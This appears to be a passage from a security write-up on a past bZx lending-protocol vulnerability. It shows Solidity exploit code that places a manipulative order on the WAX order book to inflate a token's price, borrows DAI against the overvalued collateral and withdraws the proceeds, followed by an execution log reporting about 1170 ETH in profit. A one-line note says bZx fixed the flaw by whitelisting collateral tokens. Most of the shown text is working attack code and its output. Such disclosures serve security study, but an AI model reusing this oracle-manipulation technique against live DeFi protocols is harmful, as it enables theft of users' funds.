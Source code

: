 ```text
        require(WAX_ORDER_BOOK.submitEthToTokenOrder(uint128(ethOfferAmount), uint128(waxBidAmount)));
    }
    
    function borrow() external {
        bytes32 hash = doBorrow(BZX_DAI, false, BZX_DAI.marketLiquidity(), DAI, WAX);
        printf("borrowing loanHash=%32x\n", abi.encode(hash));
    }
    
    function cleanup() external {
        require(WAX_ORDER_BOOK.cancelEthToTokenOrder(orderId));
        WAX_ORDER_BOOK.withdrawEther(WAX_ORDER_BOOK.makerFunds(address(this), KYBER_ETH));
        WAX_ORDER_BOOK.withdrawToken(WAX_ORDER_BOOK.makerFunds(address(this), WAX));
        WAX_ORDER_BOOK.withdrawKncFee(WAX_ORDER_BOOK.makerKnc(address(this)));
        DAI.giveAllToUniswap();
        KNC.giveAllToUniswap();
        WAX.giveAllToBancor();
        WETH.withdrawAll();
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
    
    function borrowInterest(uint amount) internal {
        DAI.getFromUniswap(amount);
    }
}

/*
### running script "bzx-wax-exploit" at block 8455720
#### executing step: exploit
##### calling: checkRates()
checking rates tokens=1.00000000 rate=0.000000000000000000 slippage=0.000000000000000000
##### calling: makeOrder()
making malicious order kncRequired=127.438017578344399080
##### calling: checkRates()
checking rates tokens=1.00000000 rate=10.000000000000000000 slippage=9.700000000000000000
##### calling: borrow()
collateral_required=232.02826470, interest_required=19750.481385867262370788
borrowing loanHash=0x2cca5c037a25b47338027b9d1bed55d6bc131b3d1096925538f611240d143c64
##### calling: cleanup()
##### calling: checkProfits()
profits=1170.851523093083307797
#### finished executing step: exploit
*/
```

### **Solution**

The bZx team blocked this attack by whitelisting tokens which can be used as collateral.
